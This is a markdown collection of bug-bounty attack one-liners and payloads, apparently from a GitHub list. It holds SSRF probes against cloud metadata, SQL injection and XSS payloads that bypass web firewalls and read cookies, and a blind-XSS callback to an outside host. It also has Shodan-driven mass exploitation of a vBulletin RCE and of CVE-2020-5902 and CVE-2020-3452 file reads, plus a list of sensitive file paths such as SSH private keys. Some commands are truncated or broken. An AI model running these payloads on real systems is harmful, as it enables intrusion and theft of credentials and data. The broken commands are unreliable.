






> https://github.com/dwisiswant0/awesome-oneliner-bugbounty

### SSRF

- Automate SSRF attacks

    ```bash
    cat params.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"
    ```

    ```bash
    cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
    ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s
    ```

    ```bash
    subfinder -d http://target.com -all -silent | httpx -silent -threads 500 | anew -q subdomains.txt
    
    cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 500 | anew -q gau_output.txt
    ```

    ```bash
    cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"
    
    cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q params.txt
    
    cat parameters.txt | gf ssrf | anew -q ssrf.txt
    ```

    

- [Find SSRF on all your huge target list via httpx](https://twitter.com/Alra3ees/status/1478188105060470785?s=20&t=hWFdVYd7HgTbL4kYN3EiHg)

    1. Download [THIS](https://github.com/lutfumertceylan/top25-parameter/blob/master/ssrf-parameters.txt)

    2. Add [http://brutelogic.com.br/poc.svg](https://t.co/R928jn8xlb) on {target}

    3. Run httpx

        ```bash
        httpx -paths ssrf-parameters.txt -threads 200 -o ssrf.txt
        ```

    4. Screenshot the result

        ```bash
        gowitness file -f ssrf.txt
        ```

    

    > https://twitter.com/SHenopeX0/status/1480496328694280199?s=20&t=hWFdVYd7HgTbL4kYN3EiHg
    >
    > https://twitter.com/Alra3ees/status/1480758969148788738?s=20&t=hWFdVYd7HgTbL4kYN3EiHg

    

### JS Links

- 

    > To get collector.py : https://github.com/m4ll0k/BBTz/blob/master/collector.py

- Find JS Files @D0cK3rG33k

    ```bash
    assetfinder --subs-only site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
    ```

- Extract Endpoints from JS File @renniepak

    ```bash
    cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
    ```

- Extract Endpoints from swagger.json @zer0pwn

    ```bash
    curl -s https://domain.tld/v2/swagger.json | jq '.paths | keys[]'
    ```

### Subdomain Enumerations

- ```bash
    for ((i=1;i<=1000;i++)); do curl -i -k -s -L -X POST "https://dnsscan.cn/dns.html?keywords=yahoo.com&page=${i}" -d "ecmsfrom=&show=&num=&classid=0&keywords=http://yahoo.com" | grep -oE "[a-zA-Z0-9._-]+\.yahoo.com" | sort -u ; done
    ```

    

- Get Subdomains from RapidDNS.io @andirrahmani1

    ```bash
    curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
    ```

- Get Subdomains from BufferOver.run @_ayoubfathi_

    ```bash
    curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
    ```

    ```bash
    curl "https://tls.bufferover.run/dns?q=$DOMAIN" | jq -r .Results'[]' | rev | cut -d ',' -f1 | rev | sort -u | grep "\.$DOMAIN"
    ```

- Get Subdomains from Riddler.io @pikpikcu

    ```bash
    curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
    ```

- Get Subdomains from VirusTotal @pikpikcu

    ```bash
    curl -s "https://www.virustotal.com/ui/domains/domain.com/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
    ```

- Get Subdomain with cyberxplore @pikpikcu

    ````bash
    curl https://subbuster.cyberxplore.com/api/find?domain=yahoo.com -s | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" 
    ````

- Get Subdomains from CertSpotter @caryhooper

    ```bash
    curl -s "https://certspotter.com/api/v1/issuances?domain=domain.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | tr -d '[]"\n ' | tr ',' '\n'
    ```

- Get Subdomains from Archive @pikpikcu

    ```bash
    curl -s "http://web.archive.org/cdx/search/cdx?url=*.domain.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
    ```

- Get Subdomains from JLDC @pikpikcu

    ```bash
    curl -s "https://jldc.me/anubis/subdomains/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
    ```

- Get Subdomains from securitytrails @pikpikcu

    ```bash
    curl -s "https://securitytrails.com/list/apex_domain/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".domain.com" | sort -u
    ```

- Bruteforcing subdomain using DNS Over @pikpikcu

    ```bash
    while read sub;do echo "https://dns.google.com/resolve?name=$sub.domain.com&type=A&cd=true" | parallel -j100 -q curl -s -L --silent  | grep -Po '[{\[]{1}([,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]|".*?")+[}\]]{1}' | jq | grep "name" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".domain.com" | sort -u ; done < wordlists.txt
    ```

- Get Subdomains With sonar.omnisint.io @pikpikcu

    ```bash
    curl --silent https://sonar.omnisint.io/subdomains/twitter.com | grep -oE "[a-zA-Z0-9._-]+\.twitter.com" | sort -u 
    ```

- Get Subdomains With synapsint.com @pikpikcu

    ```bash
    curl --silent -X POST https://synapsint.com/report.php -d "name=https%3A%2F%2Fdomain.com" | grep -oE "[a-zA-Z0-9._-]+\.domain.com" | sort -u 
    ```

- Get Subdomains from crt.sh @vict0ni

    ```bash
    curl -s "https://crt.sh/?q=%25.$1&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
    ```

- Sort & Tested Domains from Recon.dev @stokfedrik

    ```bash
    curl "https://recon.dev/api/search?key=apikey&domain=example.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | sort -u |httpx -silent
    ```

- Subdomain Bruteforcer with FFUF @GochaOqradze

    ```bash
    ffuf -u https://FUZZ.rootdomain -w jhaddixall.txt -v | grep "| URL |" | awk '{print $4}'
    ```

- Find All Allocated IP ranges for ASN given an IP address

    ```bash
    whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net $1 | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
    ```

- Extract IPs from a File @emenalf

    ```bash
    grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt
    ```

- Ports Scan without CloudFlare @dwisiswant0

    ```bash
    subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe
    ```

- Create Custom Wordlists @tomnomnom

    ```bash
    gau domain.com| unfurl -u keys | tee -a wordlist.txt ; gau domain.com | unfurl -u paths|tee -a ends.txt; sed 's#/#\n#g' ends.txt  | sort -u | tee -a wordlist.txt | sort -u ;rm ends.txt  | sed -i -e 's/\.css\|\.png\|\.jpeg\|\.jpg\|\.svg\|\.gif\|\.wolf\|\.bmp//g' wordlist.txt
    ```

    ```bash
    cat domains.txt | httprobe | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a words.txt  
    ```

- Extracts Juicy Informations @Prial Islam Khan

    ```bash
    for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done
    ```

- Find Subdomains TakeOver @hahwul

```bash
subfinder -d {target} >> domains ; assetfinder --subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

- Get multiple target's Custom URLs from ParamSpider @hahwul

```bash
cat domains | xargs -I % python3 ~/tool/ParamSpider/paramspider.py -l high -o ./spidering/paramspider/% -d % ;
```

- URLs Probing with cURL + Parallel @akita_zen

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

- Get all the urls out of a sitemap.xml @healthyoutlet

    ```bash
    curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'
    ```

- Pure bash Linkfinder @ntrzz

    ```bash
    curl -s $1 | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort | uniq | 
    ```

- Find live host/domain/assets @*YashGoti*

    ```bash
    subfinder -d http://tesla.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
    ```

- Get Subdomains from IPs  @laughface809

    ```bash
    python3 hosthunter.py <target-ips.txt> > vhosts.txt
    ```

- webscreenshot @laughface809

    ```bash
    python webscreenshot.py -i list.txt -w 40
    ```
    
- Subdomains to Burp Suite

    Export subdmains from file to Burp suite by [@tvmpt](https://twitter.com/tvmpt)

    ```bash
    cat <file-name> | parallel -j 200 curl -L -o /dev/null {} -x 127.0.0.1:8080 -k -s
    ```

### SQL Injection

- here are some tips that are used to easily find sql-Injection 100% 

    ```bash
    /?q=1
    /?q=1'
    /?q=1"
    /?q=[1]
    /?q[]=1
    /?q=1`
    /?q=1\
    /?q=1/*'*/
    /?q=1/*!1111'*/
    /?q=1' or '1'='1
    /?q=1 or 1=1
    /?q='or''='
    /?q=")
    /?q=')
    /?q=-x()
    /?q=1''asd''   <== concat string
    ```

- SQL injection vulnerability to XSS

    ```sql
    payload: 
    concat(0x3c7363726970743e70726f6d70742822,0x3078336e30,0x7c7c,user(),0x7c7c,database(),0x222c646f63756d656e742e636f6f6b6965293c2f7363726970743e)
    ```

    

- SQLi to open-redirect 

    ```js
    CONCAT(0x3C7363726970743E,0x77696E646F772E6C6F636174696F6E2E7265706C6163652822,"http://evil.host",0x2229,0x3C2F7363726970743E)
    ```

### GIT

- Just add these directories to your wordlist 

    ```bash
    /.git/index
    /.git/config
    /.git/logs/HEAD
    ```

### Local File Inclusion

- 
    ```bash
    gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
    ```

### Open-redirect

- @dwisiswant0

    ```bash
    export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
    ```

- @N3T_hunt3r

    ```bash
    cat waybackurl.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
    ```

### XSS

- @cihanmehmet

    ```bash
    gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
    ```

- @fanimalikhack

    ```bash
    waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
    ```

- @oliverrickfors

    ```bash
    cat hosts | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
    ```

- XSS without gf  @HacktifyS

    ```bash
    waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
    ```

- bypass thing where newlines were not allowed 

    ```js
    javascript://%E2%80%A9alert()
    ```

    ```
    javascript://%0aalert(1)
    ```

    Both line and paragraph separator Unicode characters works there, 

    ````
    %E2%80%A8
    ````

- Cloudflare [#XSS](https://twitter.com/hashtag/XSS?src=hashtag_click) WAF Bypass @nav1n0x

    ```js
    "%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F
    ```

- Bitrix24 CMS [#XSS](https://twitter.com/hashtag/XSS?src=hashtag_click) [#WAF](https://twitter.com/hashtag/WAF?src=hashtag_click) Bypass CVE-2020-13483 (Shorter Payload) 

    ```js
    <a href="/*">*/)});function+__MobileAppList(){alert(1)}//>
    ```

    

- Cross Site Scripting (XSS) Akamai WAF Bypass try this payload : 

    ```
    <!--><svg+onload=%27top[%2fal%2f%2esource%2b%2fert%2f%2esource](document.cookie)%27>
    ```

    urldecode  

    ```
    <!--><svg onload='top[/al/.source+/ert/.source](document.cookie)'>
    ```

    ```js
    %3Cmarquee%20loop=1%20width=%271%26apos;%27onfinish=self[`al`+`ert`](1)%3E%23leet%3C/marquee%3E
    ```

    ```js
    %3Cx%20y=1%20z=%271%26apos;%27onclick=self[`al`%2B`ert`](1)%3E%23CLICK%20MEE
    ```

    Try here

    ```
    https://example.com/?s=%20<x%20y=1%20z=%271%26apos;%27onclick=self%5B%60al%60%2B%60ert%60%5D(1)>%23CLICK%20MEE
    ```

    

### Remote Code Execution (RCE)

- vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' @Madrobot_

    ```bash
    shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
    ```

    

### Prototype Pollution

- @R0X4R

    ```bash
    subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
    ```

    

### OTHERS

- Removes duplicate URLs and parameter combinations @laughface809

    ```bash
    cat urls.txt |qsreplace -a
    ```

- Company Sensitive Data in Internet Web Archive @3nc0d3dGuY 

    ```bash
    cat subdomains.txt | waybackurls | tee waybackurls.txt | grep -E "\\.xls|\\.xlsx|\\.json|\\.pdf|\\.sql|\\.doc|\\.docx|\\.pptx|\\.tar|\\.rar|\\.zip|\\.7z|\\.gz"
    ```

    if above may not work try to change every `\\` to `\`

- CVE-2020-5902 @Madrobot_

    ```bash
    shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
    ```

- CVE-2020-3452 @vict0ni

    ```bash
    while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
    ```

- Get CIDR & Orgz from Target Lists @steve_mcilwain

    ```bash
    for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; done | uniq); done
    ```

- Get all the urls out of a sitemap.xml @healthyoutlet

    ```bash
    curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'
    ```

- CORS Misconfiguration @manas_hunter

    ```bash
    site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin:
    ```

- Find Hidden Servers and/or Admin Panels  @rez0__

    ```bash
    ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 
    ```

- Recon using api.recon.dev @z0idsec

    ```bash
    curl -s -w "\n%{http_code}" https://api.recon.dev/search?domain=site.com | jg .[].domain
    ```

- Gather domains from content-security-policy @geeknik

    ```bash
    curl -v -silent https://$domain --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
    ```

- Finding Sensitive Files
    -- Here U1 is user profile access.

    ```
    /proc/cmdline
    /proc/mounts
    /etc/motd
    /etc/mysql/my.cnf
    /proc/sched_debug
    /home/ U1/.bash_history
    /home/ U1/.ssh/id_rsa
    ```

    > https://pastebin.com/raw/yY9xQ6sf
    
- Subdomains to Burp Suite

    Export subdmains from file to Burp suite by [@tvmpt](https://twitter.com/tvmpt)

    ```bash
    cat <file-name> | parallel -j 200 curl -L -o /dev/null {} -x 127.0.0.1:8080 -k -s
    ```

    


